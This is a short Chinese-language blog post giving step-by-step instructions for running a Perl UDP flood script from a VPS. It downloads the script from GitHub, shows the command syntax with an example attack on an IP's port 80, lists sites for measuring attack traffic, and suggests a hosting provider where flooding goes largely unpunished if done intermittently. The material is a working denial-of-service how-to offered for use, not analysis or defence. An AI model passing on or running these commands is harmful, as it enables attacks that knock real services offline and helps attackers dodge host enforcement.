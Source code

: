 # [ALP本机发包脚本使用方法说明](https://www.beggar.tk/9.html)

> 作者: [Laowang](https://www.beggar.tk/author/1/)
>    
> 时间: 2019-10-12
>    
> 分类: [默认分类](https://www.beggar.tk/category/default/)

本机发包脚本使用方法说明.

登陆VPS，执行命令

CentOS:

```bash
yum update -y
yum install wget perl dstat -y
wget https://raw.githubusercontent.com/whunt1/ALP_Script/master/udp.pl
```

Debian & Ubuntu:

```bash
apt-get update -y
apt-get install wget perl dstat -y
wget https://raw.githubusercontent.com/whunt1/ALP_Script/master/udp.pl
```

执行命令：`perl udp.pl IP port thread time(s).`

如要攻击1.2.3.4，80端口攻击100秒

`perl udp.pl 1.2.3.4 80 200 100`

这里的200是线程，根据VPS网络性能自己决定.

监控网络状况可以输入 `dstat` 查看.

要查看打出多少流量，可以访问下面几个测量的墙.

## 测量网站

[vedbex]( https://www.vedbex.com/tools/dstat )

[ddosfilter]( http://ddosfilter.net/layer4.php )

[cyber-hub](https://cyber-hub.net/layer4.php)

[toolsmania](https://www.toolsmania.net/dstat_layer4.php)

[dstat.live](https://dstat.live/)

dstat.cc[](https://dstat.cc/l4.php)

什么？不知道用那里的机器发包？

scaleway online旗下的 只要你别一直打 基本没事.

[scaleway官网](https://www.scaleway.com/)

标签: none
